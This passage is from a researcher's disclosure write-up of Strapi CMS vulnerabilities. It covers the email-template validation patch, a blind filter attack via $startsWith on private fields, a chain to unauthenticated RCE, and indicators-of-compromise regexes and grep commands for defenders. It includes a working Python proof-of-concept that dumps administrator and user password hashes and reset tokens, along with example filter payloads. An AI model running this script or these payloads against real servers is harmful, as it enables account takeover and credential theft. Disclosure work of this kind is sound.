  const oneOfVariables = allowedVariableNames.join('|');

  // 1. We need to match the delimiters: <%= ... %>
  // 2. We accept any number of whitespaces characters before and/or after the variable name: \s* ... \s*
  // 3. We only accept values from the variable list as interpolation variables' name: : (${oneOfVariables})
  return new RegExp(`<%=\\s*(${oneOfVariables})\\s*%>`, flags);
};

/**
 * Create a loose interpolation RegExp to match as many groups as possible
 *
 * @param {string} [flags] - The RegExp flags
 */
const createLooseInterpolationRegExp = (flags) => new RegExp(/<%=([\s\S]+?)%>/, flags);

module.exports = {
  createStrictInterpolationRegExp,
  createLooseInterpolationRegExp,
};
```

Breaking down what these two functions do, `keysDeep` reduces the keys in the data to an array. For an example, `keysDeep` will reduce the Object `{name: "Jeff", message: "Hi"}` to the array `['name', 'message']`. Then the magic happens with `createStrictInterpolationRegExp` that concatenates these data keys into a single regex pattern to only allow `lodash` to render interpolate delimiters that contain keys from the data that is intended to be rendered. Using the previous example, the array `['name', 'message']` would result in interpolation regex pattern `/<%=\s*(name|message)\s*%>/g`.

This is a neat strategy that would prevent `lodash` from executing any other interpolate delimiter blocks that are not strictly defined in the data. Malicious payloads that somehow do make its way into an email template would not been evaluated since they are not defined in the data that would be rendered. Initially, the only method I could think about how to render a malicious delimiter within an email template is to **actually modify the code to remove this protection** *(which is pretty silly since you basically have RCE if you can do that)*.

*However*

When I first saw the use of the `evaluate: false` option being set for the `lodash` template engine that was added into the patch I originally thought,

> "Oh neat, you can just disable the `lodash` template engine from evaluating delimiter keys in JavaScript."

*When I rechecked [the documentation for `lodash` about options for its template engine](https://docs-lodash.com/v4/template/), I realised that both Strapi's engineering team and I interpreted the `evaluate` option incorrectly.* Turns out, the `evaluate` option is for **setting the regex pattern for evaluate delimiters**, and does not stop it from executing delimiter keys as JavaScript code! This meant if an attacker could directly inject an email template into the database exploiting some other future vulnerability (eg. SQLi), then they could re-exploit the `lodash` template engine using the **escape delimiter (`<%- %>`) to execute code**!

This was an important reminder to myself to **always double check documentation when implementing security controls**! After I pointed out this minor issue with the patch, the Strapi team quickly set the `escape: false` option as well to disable the use of escape delimiters in templates. The changes can be seen on commit id [6f07d33f8803e439201354829ceeee8ebfb919fa](https://github.com/strapi/strapi/commit/6f07d33f8803e439201354829ceeee8ebfb919fa).

*But wait, that isn't the only security control that was added.*

### Fixing the Email Template Validation

The `isValidEmailTemplate` function was changed to the following code in the patch.

<details><summary><b>The New <code>isValidEmailTemplate</code></a></b></summary>
```js
'use strict';

const _ = require('lodash');
const {
  template: { createLooseInterpolationRegExp, createStrictInterpolationRegExp },
} = require('@strapi/utils');

const invalidPatternsRegexes = [
  // Ignore "evaluation" patterns: <% ... %>
  /<%[^=]([\s\S]*?)%>/m,
  // Ignore basic string interpolations
  /\${([^{}]*)}/m,
];

const authorizedKeys = [
  'URL',
  'ADMIN_URL',
  'SERVER_URL',
  'CODE',
  'USER',
  'USER.email',
  'USER.username',
  'TOKEN',
];

const matchAll = (pattern, src) => {
  const matches = [];
  let match;

  const regexPatternWithGlobal = RegExp(pattern, 'g');

  // eslint-disable-next-line no-cond-assign
  while ((match = regexPatternWithGlobal.exec(src))) {
    const [, group] = match;

    matches.push(_.trim(group));
  }

  return matches;
};

const isValidEmailTemplate = (template) => {
  // Check for known invalid patterns
  for (const reg of invalidPatternsRegexes) {
    if (reg.test(template)) {
      return false;
    }
  }

  const interpolation = {
    // Strict interpolation pattern to match only valid groups
    strict: createStrictInterpolationRegExp(authorizedKeys),
    // Weak interpolation pattern to match as many group as possible.
    loose: createLooseInterpolationRegExp(),
  };

  // Compute both strict & loose matches
  const strictMatches = matchAll(interpolation.strict, template);
  const looseMatches = matchAll(interpolation.loose, template);

  // If we have more matches with the loose RegExp than with the strict one,
  // then it means that at least one of the interpolation group is invalid
  // Note: In the future, if we wanted to give more details for error formatting
  // purposes, we could return the difference between the two arrays
  if (looseMatches.length > strictMatches.length) {
    return false;
  }

  return true;
};

module.exports = {
  isValidEmailTemplate,
};
```
</details>


The regex pattern `/<%[^=]([\s\S]*?)%>/m` now only allows for the `<%= %>` delimiter to be used, and can no longer be bypassed since `\s` and `\S` would match any whitespace and non-whitespace character respectively. Oddly enough, the `/\${([^{}]*)}/m` pattern was not fixed. However, it makes no difference since the `interpolate` option is now set for the `lodash` template engine and overwrites the default configuration that allowed using the ES literal delimiter (`${ }`) to evaluate code. 

[*From the `lodash` documentation*](https://docs-lodash.com/v4/template/)


The following code now checks that only authorised keys are allowed within the `<%= %>`.

```js
  const interpolation = {
    // Strict interpolation pattern to match only valid groups
    strict: createStrictInterpolationRegExp(authorizedKeys),
    // Weak interpolation pattern to match as many group as possible.
    loose: createLooseInterpolationRegExp(),
  };

  // Compute both strict & loose matches
  const strictMatches = matchAll(interpolation.strict, template);
  const looseMatches = matchAll(interpolation.loose, template);

  // If we have more matches with the loose RegExp than with the strict one,
  // then it means that at least one of the interpolation group is invalid
  // Note: In the future, if we wanted to give more details for error formatting
  // purposes, we could return the difference between the two arrays
  if (looseMatches.length > strictMatches.length) {
    return false;
  }
```

As mentioned previously, the `createStrictInterpolationRegExp` will create an allowed regex pattern from the `authorizedKeys` array. On the other hand, `createLooseInterpolationRegExp` just returns the regex pattern `/<%=([\s\S]+?)%>/` that would match any text between `<%= %>`. Therefore, if `looseMatches` has a longer length than `strictMatches` then it can be implied that there is another interpolate delimiter with a key that is not in the authorised keys list.

---

# CVE-2023-22894: Leaking Sensitive User Information by Filtering on Private Fields in Strapi Versions <=4.7.1

After reporting the above two vulnerabilities, I realised that Strapi's filtering functionality can be exploited to filter responses on **private fields**. Using this info and the `$startsWith` filter operation, I discovered a method to **leak the values of private fields by inferring values from API results**. Simply put this vulnerability is equivalent to [**blind SQLi**](https://owasp.org/www-community/attacks/Blind_SQL_Injection) or [**NoSQLi**](https://book.hacktricks.xyz/pentesting-web/nosql-injection) vulnerabilities. However, in this case I was targetting the logic of how Strapi filters database queries.

When I first reported this vulnerability, I originally thought that an attacker would require admin access to exploit. However, after my initial report I had a *gut feeling* to explore this vulnerability further.

**That's when I realised that an unauthenticated attacker can exploit this everywhere on Strapi and it can be used to hijack Strapi administrator accounts!**


*Oh god that is terrifying...*

Well let's get into the juicy details and start stealing some Strapi Administrator accounts!

---

## TL;DR Vulnerability Details

- **CVE:** CVE-2023-22894
- **CVSS v3.1 Vector:** [AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?vector=AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H&version=3.1)
- **Affected Versions:** <=4.7.1
- **How to Patch:** Immediately **update** your Strapi to version **>=4.8.0**! If you using Strapi **3.x.x** or below, **IMMEDIATELY UPDATE TO A PATCHED 4.x.x VERSION!** Strapi versions 3.x.x reached its **end of life support on the December 31st 2022**, and would **not receive a patch** for this vulnerability!

---

## Vulnerability Disclosure Timeline

| Time | Event |
| ---- | ----- |
| 2023/01/03 01:26 PM UTC | Reported this vulnerability to Strapi as *Medium* severity since the first vector was only accessible by Strapi administrators. |
| 2023/01/03 07:03 PM UTC | Strapi acknowledged my vulnerability report. |
| 2023/01/18 08:05 AM UTC | Discovered and notified Strapi that **unauthenticated users could exploit this vulnerability** and escalated the severity from *Medium* to **Critical**. However, at the time I only thought an attacker can exploit under certain conditions. |
| 2023/01/21 10:26 AM UTC | Discovered a method to exploit this vulnerability as an **unauthenticated user on all Strapi servers**. I also sent Strapi a POC that would achieve **Unauthenticated Remote Code Execution** on all Strapi <=4.5.5 servers by chaining **CVE-2023-22894** and **CVE-2023-22621** together. |
| 2023/02/23 02:31 PM UTC | After rigorous patching and testing by Strapi I was provided with the patch to test. |
| 2023/03/05 02:51 AM UTC | I confirmed Strapi's patch fixed this vulnerability. |
| 2023/03/15 03:39 PM UTC | Strapi released version **4.8.0** |

---

## Dumping Sensitive User as an Administrator User

I was just goofing about on the Strapi admin panel on my test server when I saw this nice feature for filtering entries for the API user collection.



*Interesting... I wonder if I can see sensitive information of users using the admin API.*

Taking a closer look at the API requests on Burp Suite, the API responses do not contain the values for the `password` or `reset_password_token` columns.



However, I was curious if private fields were filtered from the queries or **from the results of a query** (*a little foreshadowing there*). One of the first things I noticed was the `$startsWith` filter operation that searches for entries that start with the provided value. So I fiddled around with the `$startsWith` filter operation and realised that Strapi **just removes private fields from query results and does not remove private fields from the actual query**! This means that you can bruteforce character by character the value of private fields and infer the actual values by looking for when the number of entries in the API response changes!

To demonstrate, I created a test API account named `resetpassword` and started the password reset process that saved a reset token that started with `6a4b40` in the `reset_password_token` column for the user. Then I constructed the following filter query that returns back the entry of the `resetpassword` account, since it was the only API user account that had a reset password token that started with `6a4b40`.

```text
filters[$and][0][reset_password_token][$startsWith]=6a4b40
```



**However, if I instead filter by password reset tokens that start with `6a4b4f` the API response is empty because no account has a password reset token that starts with `6a4b4f`!**



*Rightio that ain't good...*

The next thing I decided to look into was the scope of this vulnerability being exploited by administrator users. As a **Super Administrator** user, you can **leak all API user's and Strapi admin user's password hashes and reset tokens** by exploiting Strapi's filters on the following API routes.

- Dumping API user route: `/content-manager/collection-types/plugin::users-permissions.user`
- Dumping Admin user route: `/admin/users`

The following GIF is a recording of dumping all password hashes and reset tokens on Strapi using a Super Admin account using my POC script (shown later on in this section).



However, lower privileged administrator accounts (eg. admin users assigned the Editor role) cannot dump API user or admin credentials by default. The only scenario that I found was if a lower privileged Strapi admin user was assigned the following permissions for API users, then an attacker could dump private data only for API users.



GIF below shows dumping private data only for API users when an admin account with the Editor role is used with the above permissions.



It was at this point I decided I had enough information about the vulnerability to report it Strapi and provided them with the following POC script along with the above GIFs to demonstrate the severity.

<details><summary><b>Dumping Sensitive User Data as Admin POC</a></b></summary>
```python
import argparse, requests, sys
import urllib.parse as urlparse
from concurrent.futures import ThreadPoolExecutor

THREADS=20
BCRYPT_CHARS = "$./ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789"
TOTAL_CHARS = len(BCRYPT_CHARS)

def parse_args() -> argparse.Namespace:
    parser = argparse.ArgumentParser()

    parser.add_argument(
        '-u', '--username',
        help='The email of an admin account on Strapi',
        required=True
    )

    parser.add_argument(
        '-p', '--password',
        help='The password of an admin account on Strapi',
        required=True
    )

    parser.add_argument(
        'target',
        help='Target URL'
    )

    return parser.parse_args()


class StrapiSession(requests.Session):
    def __init__(self, base_url, api_token):
        super().__init__()
        self.base_url = base_url
        self.api_token = api_token

    def request(self, method, url, *args, **kwargs):
        joined_url = urlparse.urljoin(self.base_url, url)
        headers = kwargs.get("headers", {})
        headers["Authorization"] = f"Bearer {self.api_token}"
        kwargs["headers"] = headers
        return super().request(method, joined_url, *args, **kwargs)


def get_api_token(target, username, password) -> str:
    r = requests.post(
        urlparse.urljoin(target, "/admin/login"),
        json={
            "email": username,
            "password": password
        }
    )
    r_json = r.json()
    if "error" in r_json:
        raise Exception("Invalid admin credentials were provided")

    return r_json["data"]["token"]


def get_users(s: StrapiSession, api_url):
    user_emails=[]
    page=1
    total_pages=None

    while True:
        r = s.get(api_url, data={
            "pageSize": 10,
            "page": page
        })

        r_json = r.json()
        if "data" in r_json:
            r_json = r_json["data"]
        total_pages = r_json["pagination"]["pageCount"]
        page = r_json["pagination"]["page"]

        user_emails.extend([u["email"] for u in r_json["results"]])
        if total_pages == page:
            break
        page += 1

    return user_emails


def attempt_char(s: StrapiSession, api_url, email, known_hash, c, keyname):
    r = s.get(
        api_url + f"?pageSize=1&page=1&filters[$and][0][email][$eq]={email}&filters[$and][1][{keyname}][$startsWith]={known_hash + c}",
    )
    r_json = r.json()
    if "data" in r_json:
        r_json = r_json["data"]

    if r_json["pagination"]["total"] == 1:
        return (True, c)
    return (False, None)


def dump_user_data(s, api_url, email, keyname):
    # Bcrypt hashes start with $2a$
    dumped_data = ""
    print(f"\t{email}:", end="")
    sys.stdout.flush()

    while True:
        found_char = False

        with ThreadPoolExecutor(max_workers=THREADS) as executor:
            futures = executor.map(
                attempt_char,
                TOTAL_CHARS * [s],
                TOTAL_CHARS * [api_url],
                TOTAL_CHARS * [email],
                TOTAL_CHARS * [dumped_data],
                BCRYPT_CHARS,
                TOTAL_CHARS * [keyname]
            )

            for result in futures:
                matched_char, char = result
                if matched_char:
                    found_char = True
                    dumped_data = dumped_data + char
                    print(char, end="")
                    sys.stdout.flush()
                    break
        
        if not found_char:
            break
    print("")


def dump_hashes(s, api_url, start_msg):
    print(start_msg + " Password Hashes")

    try:
        user_emails = get_users(s, api_url)
    except:
        print("Your account does not have permissions!")
        return
    
    for email in user_emails:
        dump_user_data(s, api_url, email, "password")

    print()

    print(start_msg + " Password Reset Tokens")
    for email in user_emails:
        dump_user_data(s, api_url, email, "reset_password_token")

    print()


def main(args):
    username = args.username
    password = args.password
    target = args.target

    api_token = get_api_token(target, username, password)

    with StrapiSession(target, api_token) as s:
        dump_hashes(s, "/admin/users", "Dumping Admin Account")
        dump_hashes(s, "/content-manager/collection-types/plugin::users-permissions.user", "Dumping API User Account")

if __name__ == "__main__":
    args = parse_args()
    main(args)
```
</details>

Originally I reported this vulnerability with a Medium severity to Strapi. However, deep down I knew the scope of this vulnerability was most likely way more impactful than what I discovered in my original report. *I just needed the evidence.*

---

## But Wait, It Gets Worst...

Shortly after I sent the initial report for this vulnerability, my holiday break finished and work was pretty heckers during the start of this year. However, during my free time I continued writing articles about these vulnerabilities, maintained communications with Strapi and started taking a closer look at this vulnerability in particular. Something about it just didn't sit right with me, since I felt the filtering functionality of Strapi is used everywhere in the CMS. *I just knew there was some method to be able to dump sensitive user data as an unauthenticated user.*

I decided to move from a bare bones configuration of my Strapi test server and start adding custom collections along with installing popular 3rd part plugins. One of the plugins I added was the [Comments Plugin](https://market.strapi.io/plugins/strapi-plugin-comments) that enables API users to add comments to configured collections. Looking at the content type schema for comments within the plugin ([source code](https://github.com/VirtusLab-Open-Source/strapi-plugin-comments/blob/master/content-types/comment.ts)), I noticed that there was a relational field to API users named `authorUser`.



That's when it clicked for me.

*What if this vulnerability does not require direct access to the API and Admin user collections and I can use the relational fields within other collections to get to the sensitive fields for users?*

So I decided to test out my theory by adding a comment and see if I can exploit this vulnerability to filter comments as an API user by the comment author's password hash. I created a collection named `Article` that was configured to allow users to add comments. Then using a different API user account I added a comment to an article entry that I created. The following screenshot shows the API response when I query for comments as an API user.



Then I added the following filter to see if I can filter the results of the query using the start of a Bcrypt hash.

```text
filters[$and][0][authorUser][password][$startsWith]=$2a
```



*Holy mackarel...*

**Yes you can use relational fields within collections to filter by private fields for user accounts and leak their sensitive data!**


When I realised this was the case, I immediately contacted Strapi about this new development and advised them that we should not publicly disclose my SSTI to RCE vulnerability (it was originally planned to be released on the 21st of January) until this vulnerability was patched. Since relational fields were also exploitable, it meant collections with relational fields to Strapi administrator user accounts can be exploited by an API user to **dump sensitive data for admin users**. The only prerequisite were:

1. A collection needs to have a relational field to Strapi administrator users.
2. There is an entry where the relational field is mapped to an admin user.
3. API or unauthenticated users are assigned the `find` permission for the collection with the relational mapping to admin users.

For an example, the `Article` collection I created for this demonstration has a field name `author` that is a relation mapping to an admin user. I then created an `Article` entry and set the `author` field to map to my super admin account named `Nigel`.



I then allowed public users to perform the `find` operation on the `Article` collection (a realistic configuration) and tested if I could start dumping the admin's password hash by exploiting the relational mapping.



*Hoooooly mackarel..*

However, this was not the worst case scenario since successful exploitation depends on a Strapi collection to be configured to have a field that maps to an admin user. An unauthenticated would only be able to exploit this vulnerability for a limited number of Strapi instances and does not guarantee accessing sensitive information of users for every Strapi server.

*However, what if there was a way to always find a mapping to Strapi admin users no matter how collections are configured...*

---

## But Wait, It Is The Worst Case Scenario...

I was about to stop exploring how deep I can take this vulnerability, when something caught my eye on the Strapi admin panel when I was mucking about with collections.



*How on earth does Strapi know my administrator account created and updated this entry?*

Digging into the backend database, I realised that when you create a collection on Strapi it automatically creates the `created_by_id` and `updated_by_id` columns that are foreign keys to the **corresponding admin user**. Poking at the API request I sent, you can see Strapi automatically returns the information about the Admin users based on the values of the `created_by_id` and `updated_by_id` columns.



*Looking at that API response gave me an epiphany.*


Whenever a Strapi administrator creates or updates an entry for a collection, Strapi will automatically **create a `createdBy` and `usedBy` relational mapping to the Administrator user**! Therefore, **you can dump Strapi administrator password hashes and reset tokens using any accessible collection**! To confirm my suspicions, I went back to the `Article` entry I created and tested if I could leak the admin password hash using the `createdBy` relational field.



*oooooooooh geez*

This was the worst case scenario. Not going to lie I started to shake when I realised that this was the case and informed Strapi of the growing severity of this vulnerability. This meant that **on every Strapi server** you could **leak the password hashes and password reset tokens of Strapi administrator accounts as an unauthenticated user**!

---

## Why It Took Months To Fix

Of the three vulnerabilities I reported to Strapi, this one was the hardest to patch by a large margin. In my initial recommendation to Strapi, I said:

> Strapi needs to restrict what type of column names that can be used as filters. For an example, the "password" and "reset_password_token" columns should be ignored if included in a filter.

**This was a gross simplification for the work that needed to be done to patch this vulnerability.**

Strapi had to **update 280+ files in their patch** (does include test files). Because so many files were updated, I won't be doing a deep technical dive into how this vulnerability was fixed (would have to turn this article into a book) and just provide the following overview that Strapi did:

- Implement query parameter sanitising for all top level operators (eg. filters, sort, population, etc) that removed any private fields from query parameters.
- Added a global search operator (`_q`) that removed any fields that have the `searchable` attribute to `false`.
- Sanitised column names before executing the query.

This was why Strapi took *a long time to fix this vulnerability*. **The scale of this vulnerability was massive and impacted the entire CMS!** I only explained a couple methods in this article about how to exploit this vulnerability, but nearly every feature within Strapi was vulnerable if you dug around. There is even a likely chance that popular Strapi plugins would still have this vulnerability when this article is released. That's why this patch took so long to be completed by Strapi. Their approach was to verify and cover as many edge cases as possible before applying the patch and announcing this vulnerability.

*That was a tonne of work and major kudos for the Strapi team for implementing the solution!*

---

# Chaining CVE-2023-22621 and CVE-2023-22894 Together to Achieve Unauthenticated RCE

Now for the fun part and **pop a reverse shell as an unauthenticated user**! To do this we need to first exploit **CVE-2023-22894** to hijack a **Super Administrator Account**, then with the privileged access we will be able to exploit **CVE-2023-22621**! The high level overview of getting unauthenticated RCE is as follows:

**Exploiting CVE-2023-22894**
1. Search for any entry on a publicly accessible entry for a collection that was created or updated by a super administrator user.
2. Leak the email address for the super administrator user.
3. Perform the forgot my password action for the super administrator account.
4. Leak the reset password token for the super administrator user.
5. Set a new password for the super administrator account and grab the API token for the admin API.

**Exploiting CVE-2023-22621**

6. Set a crafted email template that execute arbitrary terminal commands when rendered for when API accounts register.
7. Enable sending emails on API account registration.
8. Register a new API account to trigger the RCE vulnerability.
9. `you g0t mail`

I will not be immediately releasing my POC that I sent to Strapi. However, I will show off the below GIF of running my POC that **pops a reverse shell** as an **unauthenticated user** on my test server running Strapi version 4.5.5.



---

# Indicators of Compromise

One of my primary concerns about finding all of these vulnerabilities in Strapi is that there is a strong possibility that a malicious actor has already discovered them and are actively exploiting them in the wild. *Especially considering that Strapi is an open source project and anyone could review the code.* To assist blue teams I will provide Indicators of Compromise (IoCs) for these vulnerabilities. The following IoCs are based on having access to request logs and do not consider the use of additional logging tools/resources.

## Detecting AWS Cognito Auth Bypass (CVE-2023-22893)

*Although you should not log OAuth auth and ID tokens*, they are included as GET parameters to `/api/auth/cognito/callback` and will be likely logged in request logs for default configurations. This gives us a method to query request log files for suspicious JWT tokens for authenticating to the AWS Cognito login provider.

The following regex pattern will extract all of the ID tokens sent to `/api/auth/cognito/callback`.

**Strapi v4**
```js
/\/api\/auth\/cognito\/callback\?[\s\S]*id_token=\s*([\S]*)/
```

**Strapi v3**
```js
/auth\/cognito\/callback\?[\s\S]*id_token=\s*([\S]*)/
```

Once you have a list of the ID tokens, you will need to verify each token using the **public key file for your AWS Cognito user pool** that you can download from `https://cognito-idp.{region}.amazonaws.com/{userPoolId}/.well-known/jwks.json`. If there are any JWT tokens that cannot be verified using the correct public key, then you need to inspect the JWT body and see if it contains the `email` and `cognito:username` claims (example below).

```json
{
        "cognito:username": "auth-bypass-example",
        "email": "pleasedonttakeovermy@ccount.com"
}
```

If there are any JWTs that have this body, verify when the account with the email address was created. If the account was created earlier than the request to `/api/auth/cognito/callback` with the invalid JWT token, then you need to **contact the user to inform them their account has been breached**!

## Detecting Leaking Sensitive User Data (CVE-2023-22894)

The exploitation of **CVE-2023-22894** is easily detectable, since the payload is within the GET parameters and are normally included in request logs. The following regex pattern will extract requests that are exploiting this vulnerability to leak user's email, password and password reset token columns.

**Strapi v4**
```js
/(\[|%5B)\s*(email|password|reset_password_token|resetPasswordToken)\s*(\]|%5D)/
```

**Strapi v3**
```js
/(\.|%2E)\s*(email|password|reset_password_token|resetPasswordToken)\s*(\_|%5F)/
```

You can search log files for this IoC by using the following `grep` command.

**Strapi v4**
```bash
grep -iE '(\[|%5B)\s*(email|password|reset_password_token|resetPasswordToken)\s*(\]|%5D)' $PATH_TO_LOG_FILE
```

**Strapi v3**
```bash
grep -iE '(\.|%2E)\s*(email|password|reset_password_token|resetPasswordToken)\s*(\_|%5F)' $PATH_TO_LOG_FILE
```

If the above regex patterns matches any lines in your log files, take extra precaution to look out for multiple requests that include `password`, `reset_password_token` or `resetPasswordToken`. **This would indicate that an attacker has leaked the password hashes and reset tokens on you Strapi server and you need to immediately start incident response!**

## Detecting Remote Code Execution (CVE-2023-22621)

Using just the request log files, the only IoC to search for is a `PUT` request to URL path `/users-permissions/email-templates`. This IoC only indicates that a Strapi email template was modified on your server and by itself does not indicate if your Strapi server has been compromised. If this IoC is detected, you will need to manually review your email templates on your Strapi server and backups of your database to see if any of the templates contain a `lodash` template delimiter (eg. `<%STUFF HERE%>`) that contains suspicious JavaScript code. If you find a suspicious template delimiter but unsure if your server has been compromised, you can [private message me on Twitter](https://twitter.com/GhostCcamm) and I will verify if you have been breached when I am available.

---

# Conclusion

I hope you enjoyed this deep dive into these vulnerabilities that I discovered in Strapi. It was a lot of fun taking on the challenge of bypassing Strapi's email template validation, dumping sensitive user information and bypassing authentication.

Once again, I want to give the Strapi security team a massive thank you for how they handled responding to my security reports. I seldomly see vulnerability disclosure done correctly by an organisation, and this experience was a huge breath of fresh air for me. I wish that other organisations look towards Strapi as an example on how vulnerability disclosure should be handled, because as we always say in the security world...

*We have anxiety for a reason.*

*Thank you for reading!*